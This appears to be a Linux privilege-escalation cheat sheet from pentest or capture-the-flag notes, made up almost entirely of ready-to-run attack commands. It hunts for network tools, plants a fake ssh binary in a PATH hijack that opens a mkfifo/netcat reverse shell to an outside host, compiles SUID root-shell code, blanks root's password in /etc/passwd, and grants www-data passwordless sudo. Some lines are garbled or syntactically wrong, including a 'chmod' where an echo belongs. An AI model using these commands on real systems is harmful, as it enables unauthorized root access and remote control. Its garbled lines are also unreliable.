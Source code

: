 ```text
find / -name wget 2>/dev/null; find / -name nc* 2>/dev/null; find / -name netcat* 2>/dev/null; find / -name tftp* 2>/dev/null; find / -name ftp 2>/dev/null
```

#### Mounted filesystems

```text
mount; df -h; cat /etc/fstab
```

If you can just change PATH, the following will add a poisoned ssh binary:

```text
 set PATH="/tmp:/usr/local/bin:/usr/bin:/bin"
 echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 >/tmp/f" >> /tmp/ssh
 chmod +x ssh
```

```text
#Ippsec demoing $PATH PE
https://www.youtube.com/watch?v=3VxZNflJqsw
```

Generating SUID C Shell for /bin/bash

```text
int main(void){
    setresuid(0, 0, 0);
    system("/bin/bash");
}
```

Without interactive shell

```text
echo -e '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\n\nint main(void){\n\tsetuid(0);\n\tsetgid(0);\n\tsystem("/bin/bash");\n}' > setuid.c
```

If /etc/passwd has incorrect permissions, you can root:

```text
echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd; su
```

or

```text
openssl passwd
#put in password, output is random sting
#pass this on the x part of root in /etc/passwd
su root using the password u set
```

Add user www-data to sudoers without password

```text
chmod 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
```
